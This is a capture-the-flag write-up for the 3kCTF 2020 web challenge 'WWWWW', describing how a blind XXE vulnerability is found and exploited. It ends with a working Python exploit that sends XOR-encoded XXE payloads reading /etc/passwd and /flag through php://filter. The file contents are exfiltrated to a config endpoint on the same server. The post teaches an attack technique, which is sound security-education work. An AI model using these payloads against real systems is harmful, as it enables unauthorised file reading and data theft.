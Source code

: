 ```yaml
---
layout: post
title: WWWWW
category: 3kCTF 2020
---
```


On July 24th we hosted the 3k international CTF, we tried to make it a good quality CTF as much as possible, we also tried not to make the challenge mostly guessable
, thats why as challenge includes a recon technique ( brute-forcing dirs/files) ,we added note that the task is kind of bounty challenge :)

To begin , the first steps were not that hard to find the vulnerability which was XXE but was a bit hard to exploit :) I will discuss this in my write up.
 .
The usual steps when checking out a web challenge or even when trying to find bugs in a website that we have never used is to check all possible functions at least on the main domain.

At the first check, we get an idea of what the website is!

![index](https://user-images.githubusercontent.com/7364615/88489371-2fa9fb80-cf94-11ea-86d0-1386be5d49d9.png)

Checking out each function and using burp to log all possible queries during that time, we found an interesting request that was triggered.

![api](https://user-images.githubusercontent.com/7364615/88489526-03db4580-cf95-11ea-8325-40a547d825b9.png)

We tried to decode the base64 data that was sent by it was not only encoded thats why we got garbage data. we get back to the source code page to check where the `api.php` is used ,but we just found some obfuscated javascript code

![js](https://user-images.githubusercontent.com/7364615/88489581-5288df80-cf95-11ea-889a-94734ed431b8.png)

We tried to deobfuscate it, but that was the worst option, it will take some time so the best solution will be to use `chrome devtools` and debug the code directly and check what is going on in our data!

Simply putting a breakpoint right after extracting the value of `email` line.

![bp](https://user-images.githubusercontent.com/7364615/88489835-38e89780-cf97-11ea-8c07-c688a7cd2867.png)

Continuing to track the functions called just before the final base64 data, we found that it was just xoring the email that was injected into a hardcoded XML document , where the key : `hSuuzuKdkvJeWgjW`

![xor](https://user-images.githubusercontent.com/7364615/88489906-e8be0500-cf97-11ea-9dbe-fc7d41de3910.png)

As we understand what the app was doing in the background, we can write simple code or just edit the XML each time using devtools.

First, to confirm that there is an XML external entity vulnerability, we can xor and encode our own payload directly without going through the javascript used on the application.

To confirm that we have XXE here, we just tried a simple payload, but as `api.php` just returns` {" result ":" ok "}` if the xml parse pass and` {"result": " error "}` if not.

and also after trying to include external url to verify pingback, we found that there was no request even a simple DNS request. So how can we confirm that we have XXE ?!

Easy, just use external url and local url to check (same as time based SQL injection :D)

![xxe](https://user-images.githubusercontent.com/7364615/88490135-a3023c00-cf99-11ea-822b-63be9052c210.png)

After encoding the url and sending these two payloads separately, we found that the payload that requests an external url takes a long time compared to the one that requests localhost which confirms that we have XXE in our case.

So as its bug bounty style based challenge, here we can ask our best friend `dirsearch` tool and he will tell us what to do: D

![dir](https://user-images.githubusercontent.com/7364615/88490248-8581a200-cf9a-11ea-8514-51519937ff70.png)

And yes :), we just got a cool output that includes results that we still haven't verified!

Digging a little deeper into the result, we found an endpoint that can be used to dump information about hotel and restaurant locations, but the most interesting part was this.

![file](https://user-images.githubusercontent.com/7364615/88490293-f628be80-cf9a-11ea-88a4-7d5e488e0ec7.png)

There was another file, visiting it it will come out

```
{"msg":"sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","read":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","write":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test"}
```

By checking and trying multiple attempts we confirm two results, we can either dump our config settings or change them as needed, but we should use our sid in each request which looks like a sessionid value

For example, to update current values, we can just request `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test` and then `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0` to confirm the update

Thinking about how to use this feature like a weapon, we can just make this endpoint which can be reached from localhost too as store file, so as we need in the normal exploit a External DTD but in this case there was no outgoing port open, using a php wrapper which should be supported in this case to return our DTD content as if it had been loaded from the outside. 

![sploit](https://user-images.githubusercontent.com/7364615/88490744-232aa080-cf9e-11ea-896c-0720b962fdee.png)

```
import requests
import base64
import json
from pwn import *

s = requests.Session()
key_xor = "hSuuzuKdkvJeWgjW"

def getsid():
    response = s.get('http://wwwweb.3k.ctf.to/define.php')
    return response.json()['msg'][4:]

def getdata(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid)
    return response.text

def testchange(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid+'&key=test&value=test')
    return response.text

def sendpayload(sid,payload):
  url = "http://wwwweb.3k.ctf.to/api.php"
  header = {"Content-type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://wwwweb.3k.ctf.to", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "dnt": "1", "Connection": "close"}
  response = requests.post(url, headers=header, data=payload)

def create_pay(key,dtd):
  return {"xml": b64e(xor("<!DOCTYPE r [\r\n  <!ELEMENT r ANY >\r\n  <!ENTITY % sp SYSTEM \"php://filter//resource=data://text/plain;base64,"+base64.b64encode(dtd)+"\"> %sp; %param1;\r\n]>\r\n<subscribe><email>&exfil;</email></subscribe>",key))}

sid = getsid()

print "[*] SID : "+sid
print "[*] Default value : "+ getdata(sid)
print "[*] Make small changes to test : "+ testchange(sid)
print "[*] New value : \n"+ getdata(sid)

external_dtd_1 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'
external_dtd_2 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///flag"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_1))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_2))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Reset value to prevent leak"
testchange(sid)
```

and the flag was : `3k{cL457rBpVxsJnRXNR9vW6uR4hbKszeFs}`

Thanks for reading, well done `RedRocket` and `WreckTheLine` who were the only two teams to solve the challenge during the CTF.

See you next time :)
